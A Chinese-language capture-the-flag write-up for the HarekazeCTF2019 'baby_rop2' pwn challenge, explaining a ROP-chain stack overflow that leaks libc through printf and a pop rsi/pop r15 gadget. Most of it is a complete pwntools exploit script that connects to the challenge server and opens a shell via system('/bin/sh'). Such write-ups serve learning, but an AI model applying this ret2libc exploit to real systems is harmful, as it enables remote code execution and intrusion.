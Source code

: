 ```yaml
---
title: HarekazeCTF2019 baby_rop2
tags: [ctf-pwn,exp]
date: 2023-4-21 11:24
categories: [ctf-pwn]
excerpt: exp
---
```


**题目**

<https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop2>

和前面一个题目同样，是一个构造rop链的栈溢出，虽然题目也给了libc文件，但是不是必要的

前一个文章地址：https://isolator-1.github.io/2022/11/16/ctf-pwn/ROP%20ciscn_2019_c_1/

**方法**

这道题目的差别或值得注意的地方在于

1. 不再是用puts函数（只需要一个参数），这道题目中可以用printf构造rop链

   printf有两个参数，除了rdi寄存器之外，还需要rsi寄存器来传递参数，但是这个程序里没有直接的`pop rsi, ret`的代码，只有一个`pop rsi, pop r15, ret`，因此需要再额外给r15在栈上留出一个空间。详见exp代码。

2. 用read函数进行libc基地址泄露，虽然理论上用printf也可以，但是我不知道为什么没有成功，我在网上查的时候别人也有这个问题

**Exp**

```python
from pwn import *
from LibcSearcher import *

#p = process('./babyrop2')
p = remote("node4.buuoj.cn",29507)

elf = ELF('./babyrop2')

poprdi_ret = 0x400733
poprsi_popr15_ret = 0x400731
main = elf.sym['main']
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']

read_plt = elf.plt['read']
read_got = elf.got['read']

format_str = 0x400790

payload = b'a'*40 + p64(poprdi_ret) + p64(format_str) + \
          p64(poprsi_popr15_ret) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main)

p.sendlineafter("What's your name? ",payload)

read_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print('read_addr:' + hex(read_addr))

libc = LibcSearcher('read', read_addr)
offset = read_addr - libc.dump('read')
binsh = offset + libc.dump('str_bin_sh')
system = offset + libc.dump('system')

payload = b'a'*40 + p64(poprdi_ret) + p64(binsh) + p64(system)

p.sendlineafter("What's your name? ", payload)
p.interactive()
```


